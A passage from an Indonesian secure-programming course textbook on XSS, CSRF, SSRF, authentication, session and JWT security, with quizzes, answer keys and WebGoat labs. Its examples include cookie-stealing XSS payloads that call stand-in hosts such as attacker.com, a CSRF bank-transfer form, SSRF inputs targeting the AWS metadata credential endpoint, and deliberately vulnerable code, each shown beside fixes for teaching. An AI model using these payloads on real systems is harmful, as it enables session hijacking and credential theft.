

---

## 3. Pengantar Kontekstual

XSS, CSRF, dan SSRF adalah tiga jenis serangan yang memanfaatkan kepercayaan dalam ekosistem web: XSS mengeksploitasi kepercayaan browser terhadap konten dari server yang dikunjungi; CSRF mengeksploitasi kepercayaan server terhadap request yang datang dari browser yang terautentikasi; SSRF mengeksploitasi kepercayaan server internal terhadap request yang datang dari server yang mereka percaya.

SSRF mendapat perhatian khusus dalam era cloud: serangan SSRF yang berhasil pada lingkungan AWS EC2, misalnya, dapat digunakan untuk mengakses metadata endpoint `http://169.254.169.254` dan mencuri credentials IAM — sebuah serangan yang digunakan dalam insiden Capital One 2019 yang mengekspos 100 juta record pelanggan.

---

## 4. Landasan Teori

### 4.1 Cross-Site Scripting (XSS) — CWE-79

**Definisi:** XSS terjadi ketika aplikasi menyertakan data yang tidak terpercaya dalam output HTML tanpa validasi atau encoding yang tepat, memungkinkan penyerang mengeksekusi script di browser pengguna lain.

#### Reflected XSS (Non-persistent)

Payload XSS di-"reflect" langsung dari request ke response — tidak disimpan di server. Biasanya dikirim melalui URL atau form.

```
URL berbahaya:
https://app.com/search?q=<script>document.location='https://attacker.com/steal?c='+document.cookie</script>

Server merespons:
<p>Hasil pencarian untuk: <script>document.location='...'</script></p>
                           ↑ Script dieksekusi di browser pengguna!
```

#### Stored XSS (Persistent)

Payload disimpan di database server dan ditampilkan kepada semua pengunjung yang melihat halaman tersebut.

```javascript
// Komentar berbahaya yang disimpan ke database:
"Artikel ini bagus! <script>
  // Curi cookie semua pengunjung
  new Image().src='https://attacker.com/steal?c='+document.cookie;
</script>"

// Setiap pengunjung yang membaca komentar ini mengirim cookie ke attacker
```

#### DOM-based XSS

Script berbahaya dieksekusi melalui manipulasi DOM di sisi klien, seringkali tanpa data dikirim ke server.

```javascript
// RENTAN — DOM XSS
// URL: https://app.com/page#
const fragment = window.location.hash.substring(1);
document.getElementById('content').innerHTML = fragment;  // BERBAHAYA!

// AMAN
const fragment = window.location.hash.substring(1);
document.getElementById('content').textContent = fragment;  // textContent tidak parse HTML
```

**Mitigasi XSS:**

```python
# AMAN — Output Encoding
from html import escape

def render_user_content(user_input):
    # htmlspecialchars / html.escape mengkonversi karakter khusus
    safe_output = escape(user_input)
    # < → &lt;  > → &gt;  & → &amp;  " → &quot;  ' → &#x27;
    return f"<p>{safe_output}</p>"
```

```http
# Content Security Policy (CSP) — HTTP Header
Content-Security-Policy: 
  default-src 'self'; 
  script-src 'self' 'nonce-{random_nonce}';
  object-src 'none';
  base-uri 'self'
```

CSP membatasi dari mana script dapat diload, memblokir inline script (kecuali dengan nonce), dan mencegah script dari domain tidak terpercaya.

### 4.2 Cross-Site Request Forgery (CSRF) — CWE-352

**Definisi:** CSRF memaksa pengguna yang terautentikasi untuk mengirim request berbahaya ke aplikasi web tanpa sepengetahuan mereka. Penyerang memanfaatkan fakta bahwa browser otomatis menyertakan cookie (termasuk session cookie) dalam setiap request ke domain yang bersangkutan.

**Skenario Serangan:**
```html
<!-- Halaman attacker.com yang dikunjungi korban -->
<!-- Korban sedang login di bank.com -->
<html>
<body onload="document.forms[0].submit()">
  <form action="https://bank.com/transfer" method="POST">
    <input name="to" value="attacker_account">
    <input name="amount" value="10000000">
    <!-- Browser otomatis menyertakan session cookie bank.com! -->
  </form>
</body>
</html>
```

**Mitigasi CSRF:**

```python
# 1. CSRF Token (Synchronizer Token Pattern)
from secrets import token_hex

# Saat render form:
csrf_token = token_hex(32)
session['csrf_token'] = csrf_token
# Token disertakan dalam form tersembunyi

# Saat proses form:
if request.form.get('csrf_token') != session.get('csrf_token'):
    abort(403)  # CSRF terdeteksi!
```

```http
# 2. SameSite Cookie Attribute
Set-Cookie: sessionid=abc123; HttpOnly; Secure; SameSite=Strict
# SameSite=Strict: Cookie TIDAK dikirim untuk cross-site request
# SameSite=Lax: Cookie dikirim hanya untuk top-level navigation GET
```

### 4.3 Server-Side Request Forgery (SSRF) — CWE-918

**Definisi:** SSRF memungkinkan penyerang memaksa server untuk membuat HTTP request ke lokasi yang dipilih penyerang — termasuk sumber daya internal yang tidak dapat diakses langsung.

**Contoh Kode Rentan:**
```python
# RENTAN — SSRF
import requests

@app.route('/fetch')
def fetch_url():
    url = request.args.get('url')  # Input pengguna langsung!
    response = requests.get(url)   # Server membuat request
    return response.content

# Input: url=http://localhost:8080/admin
# → Server mengakses endpoint admin internal!

# Input (di AWS): url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
# → Mencuri AWS IAM credentials!
```

**Mitigasi SSRF:**
```python
# AMAN — Allowlist + Validasi
import ipaddress
from urllib.parse import urlparse

ALLOWED_DOMAINS = {'api.trusted-service.com', 'cdn.company.com'}
BLOCKED_IP_RANGES = [
    ipaddress.ip_network('10.0.0.0/8'),    # Private
    ipaddress.ip_network('172.16.0.0/12'),  # Private
    ipaddress.ip_network('192.168.0.0/16'), # Private
    ipaddress.ip_network('169.254.0.0/16'), # Link-local (cloud metadata!)
    ipaddress.ip_network('127.0.0.0/8'),    # Loopback
]

def safe_fetch(url):
    parsed = urlparse(url)
    
    # Whitelist domain
    if parsed.hostname not in ALLOWED_DOMAINS:
        raise ValueError("Domain not allowed")
    
    # Resolve dan cek IP
    import socket
    ip = ipaddress.ip_address(socket.gethostbyname(parsed.hostname))
    for blocked_range in BLOCKED_IP_RANGES:
        if ip in blocked_range:
            raise ValueError("IP address not allowed")
    
    return requests.get(url, allow_redirects=False, timeout=5)
```

---

## 5. Model atau Arsitektur

### 5.1 Perbandingan XSS, CSRF, SSRF — Siapa Mempercayai Siapa



---

## 6. Contoh Terapan

### Studi Kasus: XSS Stored pada Platform Forum

**Konteks:** Forum diskusi komunitas memungkinkan HTML dalam posting. Tanpa sanitasi yang tepat, penyerang dapat menyisipkan script yang mencuri session cookie semua pengunjung.

**Payload XSS:**
```html
Posting: "Diskusi menarik!
<script>
var img = new Image();
img.src = 'https://attacker.lab/steal?session=' + document.cookie;
</script>"
```

**Dampak:** Setiap pengguna yang membaca thread tersebut mengirimkan session cookie mereka ke penyerang. Penyerang dapat menggunakan session token tersebut untuk login sebagai pengguna tersebut (*session hijacking*).

**Mitigasi:**
1. Output encoding: semua user-generated content di-escape sebelum ditampilkan
2. CSP: mencegah script dari domain eksternal dan inline script tanpa nonce
3. HttpOnly cookie: mencegah JavaScript mengakses cookie session

---

## 7. Praktikum — XSS dan CSRF di WebGoat

**Tujuan:** Memahami mekanisme XSS dan CSRF melalui eksploitasi terkontrol di WebGoat.

**Modul WebGoat:**
1. Cross-Site Scripting (XSS) — semua lessons
2. Cross-Site Request Forgeries — semua lessons

**Untuk XSS:** Dokumentasikan payload yang berhasil, konteks di mana XSS dieksekusi, dan cara mitigasinya.

**Untuk CSRF:** Demonstrasikan bagaimana form dapat mengirim request lintas-situs, dan bagaimana CSRF token mencegah ini.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** XSS Stored berbeda dari Reflected XSS karena:
A. Stored XSS lebih mudah dieksploitasi  
B. Stored XSS memengaruhi satu pengguna; Reflected bisa memengaruhi banyak  
C. Payload Stored XSS disimpan di server dan berdampak pada semua pengunjung  
D. Reflected XSS memerlukan server-side storage

**Soal 2 (PG):** `SameSite=Strict` pada cookie menyebabkan browser:
A. Mengenkripsi cookie sebelum dikirim  
B. Tidak mengirim cookie untuk request cross-site, bahkan untuk top-level navigation  
C. Hanya mengirim cookie melalui HTTPS  
D. Mencegah JavaScript membaca cookie

**Soal 3 (Analisis):** Mengapa SSRF sangat berbahaya di lingkungan cloud seperti AWS atau GCP? Apa yang dapat dicapai penyerang dengan SSRF ke endpoint `http://169.254.169.254` di AWS?

**Soal 4 (Kode):** Tulis Content Security Policy header yang mencegah: (a) eksekusi inline script, (b) script dari domain pihak ketiga, (c) iframe dari domain lain, (d) koneksi WebSocket ke domain tidak terpercaya.

**Soal 5 (Esai):** Jelaskan perbedaan fundamental antara XSS dan CSRF dari perspektif "kepercayaan siapa yang dieksploitasi" dan "siapa yang menjadi korban langsung dari serangan".

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Audit Keamanan Fitur Profil Publik

Sebuah platform media sosial memiliki fitur profil publik di mana pengguna dapat mengisi: nama, bio (maksimum 500 karakter), URL website, dan foto profil (upload file).

Kode yang mengambil dan menampilkan profil:
```python
@app.route('/profile/<username>')
def show_profile(username):
    user = db.get_user(username)
    # Tampilkan profil dengan Jinja2 template
    return render_template('profile.html', user=user)

# profile.html
"""
<h1>{{ user.name }}</h1>
<div class="bio">{{ user.bio | safe }}</div>  <!-- [A] -->
<a href="{{ user.website }}">Website</a>       <!-- [B] -->
               <!-- [C] -->
"""

@app.route('/profile/update', methods=['POST'])
def update_profile():
    # Tidak ada CSRF protection!           <!-- [D] -->
    user.bio = request.form['bio']
    user.website = request.form['website']
    db.save(user)
    return redirect(f'/profile/{user.username}')
```

**Pertanyaan:**
1. **Identifikasi Kerentanan (C4)**: Analisis titik [A], [B], [C], dan [D]. Untuk setiap titik: jenis kerentanan, bagaimana dieksploitasi, dan dampaknya.

2. **Implementasi Mitigasi (C4)**: Tulis versi aman dari template dan fungsi update_profile, termasuk: output encoding yang tepat, validasi URL website (tolak javascript: scheme), CSP header, dan CSRF protection.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C:** Stored XSS menyimpan payload di server (database, file). Setiap pengunjung yang memuat halaman tersebut menjalankan payload — ini yang membuatnya lebih berbahaya (satu payload, banyak korban). Reflected XSS harus dikirim melalui URL kepada setiap korban secara individual.

**Soal 2 — B:** `SameSite=Strict` berarti browser tidak akan mengirim cookie SAMA SEKALI untuk request yang berasal dari situs lain — termasuk saat pengguna mengklik link di situs lain yang menuju ke domain yang dilindungi. `SameSite=Lax` masih mengizinkan pengiriman cookie untuk top-level GET navigation. `Secure` (C) adalah atribut berbeda. `HttpOnly` (D) mencegah akses JavaScript.

**Soal 3:** Di AWS, endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/` mengembalikan IAM credentials sementara (Access Key ID, Secret Access Key, Session Token) yang ditetapkan ke EC2 instance. Dengan credentials ini, penyerang mendapat akses ke seluruh AWS account dengan level privilege yang sama dengan role EC2 tersebut — dapat membaca S3 bucket, membuat user IAM baru, menghapus resource, dll. Inilah yang terjadi pada Capital One breach 2019.

---

## 11. Ringkasan Bab

XSS mengeksploitasi kepercayaan browser terhadap konten server — mitigasi utamanya adalah output encoding dan CSP. CSRF mengeksploitasi kepercayaan server terhadap browser yang terautentikasi — mitigasi utamanya adalah CSRF token dan SameSite cookie. SSRF mengeksploitasi server sebagai proxy untuk mengakses sumber daya internal — mitigasi utamanya adalah allowlist URL yang ketat dan isolasi jaringan.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Platform media sosial besar sering mengizinkan subset HTML dalam konten pengguna (bold, italic, link) untuk meningkatkan pengalaman pengguna. Bagaimana Anda mendesain sanitasi HTML yang memungkinkan tag yang diizinkan tetapi mencegah XSS? Apa trade-off antara keamanan dan fungsionalitas dalam keputusan ini?

**Pertanyaan Refleksi 2:** SSRF sering diklasifikasikan sebagai "Server-Side Request Forgery" — tetapi korban sebenarnya bukan hanya server itu sendiri, melainkan layanan internal yang diakses. Siapa yang bertanggung jawab ketika SSRF mengekspos layanan internal yang seharusnya tidak pernah terekspos ke internet? Apakah tanggung jawab ada pada tim yang mengembangkan aplikasi SSRF-rentan, tim yang mengekspos layanan internal tanpa autentikasi, atau keduanya?

---

# BAB 7 — SECURE AUTHENTICATION DAN SESSION MANAGEMENT

**Pertemuan:** 7  
**Sub-CPMK:** Sub-CPMK.2  
**CPMK:** CPMK.1, CPMK.2  
**Evaluasi:** Eval-2

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 7, mahasiswa mampu:

- Menjelaskan prinsip-prinsip secure password storage menggunakan bcrypt dan Argon2.
- Mengidentifikasi kerentanan umum dalam sistem autentikasi (brute force, credential stuffing, MFA bypass).
- Menjelaskan secure session management: generasi token, rotasi, invalidasi.
- Menjelaskan prinsip OAuth 2.0 dan JWT security beserta kerentanan umum implementasinya.
- Menerapkan rate limiting, account lockout, dan MFA dalam desain autentikasi.

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Autentikasi adalah gerbang pertama sistem — jika autentikasi berhasil dikompromikan, semua kontrol keamanan lain menjadi tidak relevan. Meskipun konsep autentikasi sederhana (verifikasi identitas), implementasinya penuh dengan jebakan yang tidak intuitif.

Databreach besar hampir selalu melibatkan kelemahan autentikasi: password yang disimpan sebagai hash lemah (MD5) dapat di-crack dalam hitungan jam; session token yang dapat diprediksi memungkinkan session hijacking; tidak adanya MFA memungkinkan attacker yang mendapat password dari credential stuffing untuk langsung masuk.

---

## 4. Landasan Teori

### 4.1 Secure Password Storage

**Mengapa Hash Biasa Tidak Cukup:**
SHA-256 dan MD5 dirancang untuk kecepatan — GPU modern dapat menghitung miliaran SHA-256 per detik. Database password yang bocor dengan hash SHA-256 dapat di-crack dalam hitungan jam.

**Algoritma Password Hashing yang Aman:**

```python
# AMAN — bcrypt (Python)
import bcrypt

def hash_password(password: str) -> bytes:
    # cost factor: 12 adalah minimum yang direkomendasikan (2024)
    # Setiap increment memperlambat 2x
    salt = bcrypt.gensalt(rounds=12)
    return bcrypt.hashpw(password.encode('utf-8'), salt)

def verify_password(password: str, hashed: bytes) -> bool:
    return bcrypt.checkpw(password.encode('utf-8'), hashed)

# AMAN — Argon2id (lebih kuat, OWASP recommended 2024)
from argon2 import PasswordHasher

ph = PasswordHasher(
    time_cost=3,       # Iterasi
    memory_cost=65536, # Memory (64 MB)
    parallelism=4,     # Thread
    hash_len=32,
    salt_len=16
)

hashed = ph.hash(password)
ph.verify(hashed, password)  # Raise VerifyMismatchError jika salah
```

**TIDAK BOLEH:**
- `MD5(password)` — crackable dalam detik
- `SHA256(password)` — rainbow table attack
- `SHA256(password + static_salt)` — masih bisa di-crack
- `AES_encrypt(password)` — password seharusnya tidak perlu didekripsi

### 4.2 Kerentanan Autentikasi Umum

**Brute Force:**
Percobaan password secara sistematis. Mitigasi:
```python
from flask_limiter import Limiter

limiter = Limiter(app)

@app.route('/login', methods=['POST'])
@limiter.limit("5 per minute")  # Rate limiting
def login():
    username = request.form['username']
    password = request.form['password']
    
    # Tambahkan delay konstan untuk mencegah timing attack
    user = db.get_user(username)
    
    # PENTING: Selalu verifikasi hash bahkan jika user tidak ada
    # Mencegah timing-based username enumeration
    dummy_hash = "$2b$12$..."  
    if user is None:
        bcrypt.checkpw(b"dummy", dummy_hash.encode())
        return "Invalid credentials", 401
    
    if not verify_password(password, user.password_hash):
        user.failed_attempts += 1
        if user.failed_attempts >= 5:
            user.locked_until = datetime.now() + timedelta(minutes=15)
        db.save(user)
        return "Invalid credentials", 401
    
    # Reset counter saat berhasil
    user.failed_attempts = 0
    session_id = create_session(user)
    return redirect('/dashboard')
```

**Credential Stuffing:**
Menggunakan kombinasi username/password yang bocor dari breach lain. Mitigasi:
- Periksa password terhadap database password yang bocor (HIBP API)
- MFA wajib untuk akun sensitif
- Anomaly detection (login dari negara baru, perangkat baru)

### 4.3 Secure Session Management

```python
import secrets

def create_session(user):
    # AMAN — Generate token dengan keacakan yang cukup (256-bit entropy)
    session_token = secrets.token_urlsafe(32)  # 32 bytes = 256 bit
    
    # Simpan di server, bukan di client (stateful session)
    store.set(f"session:{session_token}", {
        "user_id": user.id,
        "created_at": datetime.now().isoformat(),
        "expires_at": (datetime.now() + timedelta(hours=8)).isoformat(),
        "ip": request.remote_addr,  # Untuk deteksi anomali
    }, ex=28800)  # TTL: 8 jam
    
    # Set cookie dengan atribut keamanan
    response.set_cookie(
        'session',
        session_token,
        httponly=True,   # Tidak bisa diakses JavaScript
        secure=True,     # Hanya HTTPS
        samesite='Strict',  # CSRF protection
        max_age=28800    # 8 jam
    )
    return session_token

def logout(session_token):
    # AMAN — Invalidasi di server side
    store.delete(f"session:{session_token}")
    # Hapus cookie
    response.delete_cookie('session')
```

**Session Rotation:** Buat session token baru setelah login berhasil (dan setelah privilege escalation) untuk mencegah session fixation attack.

### 4.4 JWT Security

JWT (JSON Web Token) sering digunakan untuk stateless authentication, tetapi implementasinya penuh jebakan.

**Format JWT:**
```
Header.Payload.Signature
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJ1c2VyX2lkIjoxLCJyb2xlIjoidXNlciIsImV4cCI6MTcwMDAwMDAwMH0.
signature_here
```

**Kerentanan JWT yang Umum:**

```python
# RENTAN 1: Algorithm None Attack
# Penyerang mengubah header ke {"alg": "none"} dan menghapus signature
# Library yang tidak memvalidasi alg akan menerima token ini!

# AMAN — Selalu tentukan algoritma yang diizinkan
import jwt

def decode_token_safe(token):
    return jwt.decode(
        token,
        SECRET_KEY,
        algorithms=["HS256"],  # Hanya izinkan algoritma spesifik
        options={"require": ["exp", "iss", "aud"]}  # Wajibkan klaim
    )

# RENTAN 2: RS256 → HS256 Confusion
# Jika server menggunakan RS256 (asymmetric), penyerang dapat
# mencoba menggunakan public key sebagai HMAC secret (HS256)

# RENTAN 3: Weak Secret
# jwt_secret = "secret"  → Mudah di-brute force

# AMAN — Gunakan secret yang kuat
import secrets
JWT_SECRET = secrets.token_hex(64)  # 512-bit entropy

# RENTAN 4: No expiry
# Payload: {"user_id": 1, "role": "admin"}
# Jika tidak ada "exp", token valid selamanya!

# AMAN — Selalu sertakan exp yang singkat
payload = {
    "user_id": user.id,
    "role": user.role,
    "iss": "https://app.company.com",  # Issuer
    "aud": "https://app.company.com",  # Audience
    "exp": datetime.utcnow() + timedelta(minutes=15),  # Expiry singkat!
    "jti": secrets.token_urlsafe(16)  # JWT ID untuk pencabutan
}
```

---

## 5. Model atau Arsitektur

### 5.1 Alur OAuth 2.0 — Authorization Code Flow (Aman)



---

## 6. Contoh Terapan

### Studi Kasus: Implementasi Autentikasi Aman untuk Aplikasi Mobile Banking

**Konteks:** Aplikasi mobile banking membutuhkan autentikasi yang kuat namun tetap usable.

**Strategi Autentikasi Berlapis:**

*Layer 1 — Password:* Minimum 8 karakter, tidak dalam HIBP database, disimpan dengan Argon2id.

*Layer 2 — MFA:* TOTP (Google Authenticator) wajib untuk semua akun; FIDO2/WebAuthn didukung sebagai alternatif yang lebih kuat; SMS OTP hanya sebagai fallback darurat (tidak direkomendasikan karena SIM swapping).

*Layer 3 — Device Binding:* Device fingerprint disimpan; login dari perangkat baru memerlukan verifikasi tambahan.

*Layer 4 — Anomaly Detection:* Login dari negara/IP baru → notifikasi email + tantangan tambahan; multiple failed attempts → temporary lockout.

**Session Management untuk Mobile:**
- JWT dengan expiry 15 menit untuk akses API
- Refresh token yang disimpan di secure storage (Keychain iOS / Keystore Android), dengan expiry 30 hari
- Revoke semua refresh token saat password diubah atau perangkat hilang

---

## 7. Praktikum — Analisis JWT dan Auth Vulnerabilities

**Tujuan:** Mengidentifikasi kelemahan dalam implementasi JWT dan autentikasi.

**Tools:** jwt.io, jwt_tool, WebGoat (Authentication Bypasses module)

**Tugas:**
1. Decode JWT token yang disediakan (tanpa verifikasi) — identifikasi payload
2. Coba "alg:none" attack pada target lab yang disediakan
3. Identifikasi JWT dengan secret lemah menggunakan jwt_tool
4. Implementasikan verifikasi JWT yang aman dalam Python

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Algoritma terbaik untuk menyimpan password pengguna adalah:
A. SHA-256 dengan salt acak   B. AES-256 (reversible)   C. Argon2id   D. PBKDF2 dengan 1000 iterasi

**Soal 2 (PG):** "Algorithm None" attack pada JWT berhasil karena:
A. Library menggunakan MD5 untuk verifikasi  
B. Library tidak memvalidasi bahwa algoritma dalam header sesuai yang diharapkan  
C. JWT tidak memiliki expiry  
D. Secret key terlalu pendek

**Soal 3 (Analisis):** Jelaskan bagaimana "session fixation" attack bekerja dan mengapa "session rotation" setelah login mencegahnya.

**Soal 4 (Kode):** Kode berikut memiliki kerentanan apa?
```python
user = db.get_user(username)
if user and user.password == hashlib.sha256(password.encode()).hexdigest():
    session['user_id'] = user.id
    return redirect('/dashboard')
```

**Soal 5 (Esai):** Mengapa SMS OTP tidak direkomendasikan sebagai faktor kedua untuk sistem keamanan tinggi? Apa alternatif yang lebih aman dan mengapa?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Implementasi MFA untuk Aplikasi Enterprise

Sebuah perusahaan dengan 2.000 karyawan akan mengimplementasikan MFA untuk akses ke aplikasi HR yang menyimpan data gaji dan evaluasi kinerja.

**Situasi:** 30% karyawan adalah pengguna non-teknis yang tidak familiar dengan authenticator apps. IT budget terbatas. Ada karyawan yang bekerja di lokasi tanpa akses internet stabil.

**Pertanyaan:**
1. **Desain MFA (C4)**: Rekomendasikan strategi MFA yang seimbang antara keamanan dan usability untuk konteks ini. Pertimbangkan: pilihan MFA yang tersedia (TOTP, FIDO2, push notification, SMS), bagaimana menangani karyawan yang kehilangan perangkat MFA, dan bagaimana mengelola enrollment untuk 2.000 pengguna secara bertahap.

2. **Analisis Risiko MFA (C5)**: Setiap metode MFA memiliki trade-off keamanan. Buat matriks perbandingan untuk TOTP, FIDO2/WebAuthn, SMS OTP, dan push notification — bandingkan: ketahanan terhadap phishing, SIM swapping, man-in-the-middle, dan ketidaktersediaan perangkat. Rekomendasikan kombinasi yang optimal untuk konteks ini.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C (Argon2id):** Argon2id adalah pemenang Password Hashing Competition 2015 dan rekomendasi OWASP terbaru. Ia bersifat memory-hard (sulit di-parallelkan dengan GPU/ASIC) dan waktu-adjusted. PBKDF2 dengan 1000 iterasi (D) sangat lemah — PBKDF2 membutuhkan ratusan ribu iterasi untuk setara dengan bcrypt cost 12.

**Soal 2 — B:** Library JWT yang rentan membaca alg dari header JWT itu sendiri (yang dapat dimodifikasi penyerang) dan menggunakan algoritma tersebut untuk verifikasi. Jika alg = "none", tidak ada verifikasi signature yang dilakukan. Mitigasi: selalu tentukan algoritma yang diizinkan secara eksplisit di kode verifikasi, jangan percayakan ke header JWT.

**Soal 4:** Kerentanan: (a) `hashlib.sha256(password).hexdigest()` — SHA-256 biasa untuk password; dapat di-crack dengan GPU; tidak ada salt; tidak ada work factor. Harus diganti dengan `bcrypt.checkpw()` atau Argon2. (b) Tidak ada rate limiting — rentan brute force. (c) Timing attack — `==` comparison dapat bocor informasi waktu; bcrypt.checkpw() menggunakan constant-time comparison.

---

## 11. Ringkasan Bab

Secure authentication adalah kombinasi dari: password storage yang kuat (Argon2id/bcrypt), perlindungan terhadap brute force (rate limiting, lockout), MFA untuk akun sensitif, secure session management (token acak kuat, HttpOnly/Secure cookie, session rotation), dan implementasi JWT/OAuth yang benar (validasi algoritma, expiry, revokasi).

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** NIST SP 800-63B (Digital Identity Guidelines) merevisi rekomendasi password: tidak menyarankan lagi mandatory password expiry berkala (karena pengguna cenderung membuat password lemah yang mudah diingat ketika dipaksa sering berubah) dan merekomendasikan panjang dibandingkan kompleksitas. Bagaimana Anda mengkomunikasikan perubahan paradigma ini kepada manajemen yang sudah terbiasa dengan kebijakan "ganti password setiap 90 hari"?

**Pertanyaan Refleksi 2:** Single Sign-On (SSO) meningkatkan kenyamanan pengguna tetapi menciptakan "single point of failure" — jika IdP (Identity Provider) dikompromikan, semua layanan yang terhubung terkompromi. Bagaimana Anda merancang arsitektur SSO yang seimbang antara kenyamanan, keamanan, dan resiliensi?

---

# BAB 8 — UTS: ANALISIS KODE RENTAN DAN PRINSIP SECURE CODING

**Pertemuan:** 8  
**Sub-CPMK:** Sub-CPMK.3  
**CPMK:** CPMK.1, CPMK.2  
**Evaluasi:** Eval-3 UTS (25%)

---

## 1. Capaian Pembelajaran Bab

Bab ini adalah persiapan untuk Ujian Tengah Semester (UTS) yang mengevaluasi penguasaan materi Bab 1–7. Mahasiswa mampu:

- Mengintegrasikan pemahaman SSDLC, OWASP Top 10, CWE Top 25, kerentanan memori, injection, XSS/CSRF/SSRF, dan autentikasi ke dalam analisis kasus yang koheren.
- Menganalisis kode yang diberikan untuk mengidentifikasi kerentanan secara sistematis.
- Merekomendasikan mitigasi yang tepat, spesifik, dan terverifikasi untuk setiap kerentanan.
- Mendemonstrasikan pemahaman tentang prinsip-prinsip fundamental secure programming.

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

UTS Secure Programming dirancang sebagai *case-based exam* yang menguji kemampuan mahasiswa untuk menganalisis kode nyata, bukan sekadar mengingat definisi. Mahasiswa diberikan potongan kode dari berbagai bahasa pemrograman dan diminta untuk: (1) mengidentifikasi semua kerentanan, (2) mengklasifikasikan berdasarkan CWE/OWASP, dan (3) merekomendasikan mitigasi teknis yang spesifik.

---

## 4. Landasan Teori

### 4.1 Kerangka Analisis Kode Keamanan

Ketika menganalisis kode untuk kerentanan keamanan, gunakan pendekatan sistematis:

**STRIDE untuk Code Review:**
- **S**poofing: Apakah identitas pengguna dapat dipalsukan?
- **T**ampering: Apakah data dapat dimodifikasi tanpa deteksi?
- **R**epudiation: Apakah tindakan pengguna dapat diingkari?
- **I**nformation Disclosure: Apakah data sensitif dapat bocor?
- **D**enial of Service: Apakah fungsi dapat dibuat tidak tersedia?
- **E**levation of Privilege: Apakah pengguna dapat meningkatkan hak aksesnya?

**Checklist Code Review Keamanan:**

| Area | Pertanyaan Kunci |
|---|---|
